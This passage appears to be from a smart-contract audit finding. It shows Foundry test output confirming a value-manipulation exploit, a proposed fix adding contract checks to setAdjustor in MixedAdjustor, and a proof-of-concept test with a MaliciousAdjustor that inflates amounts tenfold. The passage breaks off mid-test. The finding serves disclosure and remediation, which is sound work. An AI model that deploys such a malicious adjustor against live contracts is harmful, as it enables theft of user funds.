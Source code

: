 ```solidity
    ├─ [0] VM::assertEq(1000, 1000, "Exploit successful: Value manipulated") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 87.74ms (63.41ms CPU time)

Ran 1 test suite in 596.63ms (87.74ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
✅ Test Passed: `adjust(100)` returned `1000` → Value successfully manipulated
Exploit confirmed in current implementation

### Mitigation

Fix function
```solidity
function setAdjustor(address token, address adjustor) external {
    AdminLib.validateOwner();

    // Ensure adjustor is a deployed contract (prevents EOAs)
    require(adjustor.code.length > 0, "Adjustor must be a contract");

    // Verify Adjustor implements `toNominal()`
    (bool success, bytes memory result) = adjustor.staticcall(
        abi.encodeWithSignature("toNominal(address,uint256,bool)", token, 0, false)
    );
    require(success && result.length > 0, "Adjustor must implement toNominal()");

    adjAddr[token] = adjustor;
}
```
run the Malicious contract again

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import{Test, console2} from "forge-std/Test.sol";
import{MixedAdjustor} from "../src/integrations/adjustor/MixedAdjustor.sol"; 

interface IAdjustor {
    function adjust(uint256 amount) external returns (uint256);
}

// Exploit Contract
contract MaliciousAdjustor is IAdjustor {
    function adjust(uint256 amount) external pure returns (uint256) {
        return amount * 10; // Manipulates values
    }
}

// Foundry Test Contract
contract AdjustorExploitTest is Test {
    MixedAdjustor manager;
    MaliciousAdjustor malicious;

    function setUp() public {
        manager = new MixedAdjustor();
        malicious = new MaliciousAdjustor();
    }

    function test_ExploitAdjustor() public {
        address targetToken = address(0x123);
        manager.setAdjustor(targetToken, address(malicious));
```